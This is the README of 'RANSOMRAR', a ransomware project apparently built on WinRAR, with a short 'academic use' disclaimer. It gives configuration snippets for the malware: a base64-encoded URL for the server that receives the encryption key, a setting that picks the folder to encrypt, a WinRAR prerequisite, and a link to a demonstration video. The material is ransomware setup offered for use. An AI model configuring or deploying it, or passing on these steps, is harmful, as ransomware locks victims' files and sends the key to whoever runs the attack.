 
          ____      _    _   _ ____   ___  __  __ ____      _    ____  
         |  _ \    / \  | \ | / ___| / _ \|  \/  |  _ \    / \  |  _ \ 
         | |_) |  / _ \ |  \| \___ \| | | | |\/| | |_) |  / _ \ | |_) |
         |  _ <  / ___ \| |\  |___) | |_| | |  | |  _ <  / ___ \|  _ < 
         |_| \_\/_/   \_\_| \_|____/ \___/|_|  |_|_| \_\/_/   \_\_| \_\ by jhdbw
                                                                                                                                                
This project is purely academic, use at your own risk. I do not encourage in any way the use of this software illegally or to attack targets without their previous authorization.

Remember to specify the server that will receive the key:
```javascript
REM set b64="http://127.0.0.1:7777/"
set b64=Imh0dHA6Ly8xMjcuMC4wLjE6Nzc3Ny8i
```

To limit the scope of RANSOMRAR check the following line of code:
```javascript
set target=%HOMEPATH%\ransomrar
```
### Pre requirements
The computer must have WinRAR installed.

### Video
<a href="https://www.youtube.com/watch?v=ZqzmWpSU6g4" target="_blank"><img src="http://img.youtube.com/vi/ZqzmWpSU6g4/0.jpg" alt="RANSOMRAR" width="240" height="180" border="10" target="_blank"/></a>
